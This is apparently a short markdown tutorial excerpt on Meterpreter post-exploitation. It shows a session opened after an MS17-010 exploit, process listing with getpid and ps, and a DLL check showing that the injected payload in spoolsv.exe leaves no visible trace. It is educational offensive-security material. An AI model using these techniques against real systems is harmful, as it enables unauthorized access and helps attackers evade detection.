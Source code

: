 
---

### 🔎 Example: Meterpreter in Action

After exploiting a target (e.g., with MS17-010), you get a session like:

```bash
[*] Meterpreter session 1 opened (10.10.44.70:4444 -> 10.10.12.229:49186)
```

#### ✅ Check Which Process Meterpreter Is Running In

```bash
meterpreter > getpid
Current pid: 1304
```

#### 🧾 List Running Processes

```bash
meterpreter > ps
Process List ============
 PID   PPID  Name         User                    Path
 ----  ----  ----         ----                    ----
 1304  692   spoolsv.exe  NT AUTHORITY\SYSTEM     C:\Windows\System32\spoolsv.exe
 .
 .
 .
 .
 .
 ```

Note: Even though Meterpreter is running, there's **no `meterpreter.exe` process**.

---

### 🧠 DLL Inspection

Even inspecting the DLLs loaded by the Meterpreter-injected process (e.g., `spoolsv.exe`) won't reveal obvious signs of Meterpreter:

```bash
C:\> tasklist /m /fi "pid eq 1304"
```

This shows standard DLLs like:

```
ntdll.dll, kernel32.dll, ole32.dll, wininet.dll, ...
```

No trace of `meterpreter.dll` or anything suspicious — this adds to Meterpreter’s stealth.

---

## 🧬 Meterpreter Payload Variants
